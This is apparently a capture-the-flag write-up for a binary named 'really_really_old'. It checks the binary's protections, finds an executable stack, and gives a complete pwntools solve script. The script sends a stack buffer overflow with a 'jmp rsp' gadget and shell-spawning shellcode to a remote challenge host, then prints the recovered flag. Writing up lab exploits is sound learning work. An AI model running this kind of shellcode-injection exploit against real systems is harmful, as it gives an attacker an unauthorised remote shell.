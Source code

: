 Check file protections

```sh
checksec --file really_really_old
```

![alt text](image.png)

Stack is executable so we can do shellcode injection attack

Here is the solve script

```python
#!/usr/bin/env python3

from pwn import *

exe = './really_really_old'
elf = context.binary = ELF(exe,checksec=False)
context.log_level='debug'

host,port = '165.227.103.166',6000

#p = process(exe)
p = remote(host,port)

padding = 56

jmp_rsp = asm('jmp rsp')
jmp_rsp = next(elf.search(jmp_rsp))

shellcode = asm(shellcraft.sh())
shellcode += asm(shellcraft.exit())

payload = flat(
    asm('nop') * padding,
    jmp_rsp,
    asm('nop') * 16,
    shellcode
)


p.sendlineafter(b'FLAVORTEXT: =+-',payload)
p.interactive()
```

**_flag : CIT{n33ds_a_c4n4ry_0r_smth_ROFL_io3qwd3f32oFBIOq}_**

